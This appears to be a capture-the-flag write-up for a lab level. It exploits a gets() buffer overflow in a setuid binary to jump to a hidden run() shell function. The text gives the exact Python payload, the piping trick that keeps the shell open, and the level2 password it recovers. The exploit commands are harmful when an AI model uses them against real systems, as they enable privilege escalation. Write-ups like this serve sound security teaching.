 Level1 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

Level1 rights:
```Shell
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

When testing, we notice that it only waits for user input and exits.
Decompiling with Ghidra on https://dogbolt.org/ shows two things:
- `gets()` is used with a buffer of 76 bytes
- there is an unused `run()` function that opens a shell.

The goal is therefore to find a way to access the `run()` function. `gets()` major vulnerability is not checking
that the size of input doesn't exceed the size of the buffer. If you do exceed, you will overwrite data, which can affect the flow of 
execution. There is a specific register in each function (`EIP`, for Instruction Pointer) that stores the address
of the next instruction: we must find where it is and overwrite it with the address of `run()`.

First, let's find `run()`'s address with GDB:
```Shell
(gdb) info function
[...]
0x08048444  run
[...]
```

We know that `EIP` sits right after the end of our buffer.
Using python we craft a payload that will:
- fill the buffer
- overwrite `EIP` with the address of `run()`.
The address must be written in what is conventionnally known as [Little Endian](https://en.wikipedia.org/wiki/Endianness) because our VM system is using that.
Then we'll redirect the output to a file that can be piped to the binary.
```Shell
python -c "print('A' * 76 + '\x44\x84\x04\x08')" > /tmp/payload1
```

However, launching `run()` and opening a shell is not enough. Using a pipe to send our payload instead of writing it manually
has some consequences:
- the shell inside `run()` becomes non-interactive
- it doesn't wait for user input because it encountered EOF and exits immediately.
It makes it impossible to write our commands and retrieve the password.
We can bypass that by adding a second `cat` instruction after reading the file, which is `-`, to keep `stdin` open --thus preventing the shell from exiting.
```Shell
cat /tmp/payload1 - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```